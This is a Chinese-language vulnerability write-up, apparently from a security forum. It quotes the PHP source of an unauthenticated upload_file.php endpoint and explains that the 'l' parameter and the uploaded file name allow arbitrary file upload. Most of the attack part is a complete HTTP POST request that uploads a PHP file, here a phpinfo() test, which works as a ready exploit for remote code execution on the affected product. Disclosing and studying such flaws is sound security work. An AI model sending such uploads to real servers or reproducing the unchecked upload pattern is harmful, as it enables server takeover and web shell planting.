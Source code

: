 [![](https://shs3.b.qianxin.com/attack_forum/2021/04/attach-da0d0bd7be7b66794f3f4d1fba3700284e06609c.png)](https://shs3.b.qianxin.com/attack_forum/2021/04/attach-da0d0bd7be7b66794f3f4d1fba3700284e06609c.png)  
安装好的目录结构，看到有个Upload进去看下  
upload\_file.php

```php
<?php
function writeLog($msg){
    $logFile = date('Y-m-d').'.txt';
    $msg = date('Y-m-d H:i:s').' >>> '.$msg."\r\n";
    file_put_contents($logFile,$msg,FILE_APPEND );
}
//require("vesystem/msg_define/session_lib.php");
if ($_FILES["file"]["error"] > 0)
{
  //  echo "Return Code: " . $_FILES["file"]["error"] . "
";
}
else
{
    echo "_Requst:<br>";
        /*  foreach($_REQUEST as $name => $value)
            {
                 $name."=".$value."<br>";
            }
            //echo "_FILES:<br>";
            foreach($_FILES as $array_name=>$array_value)
            {   
            $array_name."=".$array_value."<br>";
                foreach($_FILES[$array_name] as $name => $value)
                {
                $name."=".$value."<br>";
                }
            } */
        $l = $_GET['l'];

        //拆分字符串按“/”分割字符
        $arrpath = explode("/",$l);
        $m = count($arrpath);

        $file_e = "";
        if ($m>1){
            for($i=0;$i<$m;$i++){
                $file_e .= $arrpath[$i];

                if(!file_exists($file_e)){
                    mkdir($file_e, 0777);
                }
                $file_e .= "/";
            }

        }else{

            //判断文件夹是否存在 ，不存在就新建个

            if(!file_exists($l)){
                mkdir("$l", 0777);
            }
        }

        $target_path=$_SERVER["DOCUMENT_ROOT"]."/Upload/".$l."/".$_FILES["file"]["name"];

        if (file_exists($target_path))
        {
            unlink($target_path);
        }

        $a = 'old_file='.$_FILES["file"]["tmp_name"];

        writeLog($a);
        writeLog('new_file='.$target_path);
    $target_path = str_replace ( '//', '/', $target_path );

    writeLog('new_file2='.$target_path);

   $varerror =  move_uploaded_file($_FILES["file"]["tmp_name"],$target_path);

    writeLog('$varerror='.$varerror);
}
?>
```

直接就是任意文件上传，获取参数l然后上传的文件名路径为  
/Upload/".$l."/".$\_FILES\["file"\]\["name"\]

```php
POST /Upload/upload_file.php?l=1 HTTP/1.1
Host: 127.0.0.1:2001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/*,*/*;q=0.8
Referer: http://127.0.0.1:2001/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,fil;q=0.8
Cookie: think_language=zh-cn; PHPSESSID_NAMED=h9j8utbmv82cb1dcdlav1cgdf6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfcKRltGv
Content-Length: 164

------WebKitFormBoundaryfcKRltGv
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/avif

<?php phpinfo(); ?>
------WebKitFormBoundaryfcKRltGv--

```

[![](https://shs3.b.qianxin.com/attack_forum/2021/04/attach-241ff90110e44a3710267855598f7c427029b705.png)](https://shs3.b.qianxin.com/attack_forum/2021/04/attach-241ff90110e44a3710267855598f7c427029b705.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/04/attach-b1c37dda7dfe7fbfb4fbb2eccfffe3c9966271a9.png)](https://shs3.b.qianxin.com/attack_forum/2021/04/attach-b1c37dda7dfe7fbfb4fbb2eccfffe3c9966271a9.png)